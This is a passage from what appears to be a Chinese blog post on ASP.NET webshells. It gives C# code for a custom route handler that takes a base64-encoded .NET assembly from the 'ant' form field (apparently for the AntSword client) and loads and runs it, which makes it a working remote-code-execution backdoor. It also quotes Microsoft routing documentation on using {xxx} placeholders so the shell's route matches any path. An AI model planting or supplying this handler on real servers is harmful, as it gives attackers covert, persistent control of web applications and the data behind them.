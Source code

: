 主要逻辑在ProcessRequest里，这是第四种写法

```cpp
public class MyRoute : IRouteHandler
    {
        public IHttpHandler GetHttpHandler(RequestContext requestContext)
        {
            return new Myhandler(requestContext);
        }
    }

    public class Myhandler : IHttpHandler

    {
        public RequestContext RequestContext { get; private set; }

        public Myhandler(RequestContext context)
        {
            this.RequestContext = context;
        }

        public void ProcessRequest(HttpContext context)
        {
            String Payload = context.Request.Form["ant"];
            if (Payload != null)
            {
                System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
                assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(context);
                context.Response.End();
            }
            context.Response.End();
        }

        public bool IsReusable
        {
            get { return false; }
        }
    }
```

#### 路由问题

文档：https://docs.microsoft.com/zh-cn/dotnet/api/system.web.routing.route.url?view=netframework-3.5#System_Web_Routing_Route_Url

```cpp
将值分配给 Url 属性时，在 / 分析 URL 时，字符被解释为分隔符。 使用大括号 ({}) 来定义称为 URL 参数的变量。 将 URL 中的匹配段的值分配给 URL 参数。 Url未括在大括号中的属性中的任何值都将被视为文本常量。
?不允许在属性中使用该字符 Url 。 必须通过分隔符或文本常量分隔每个 URL 段。 可以将 {{ 或 }} 用作大括号字符的转义符。
```

用这种方式有一个问题，Route的URL默认没有正则，不能像java一样直接指定/*，但是可以用{xxx}来表示任意变量
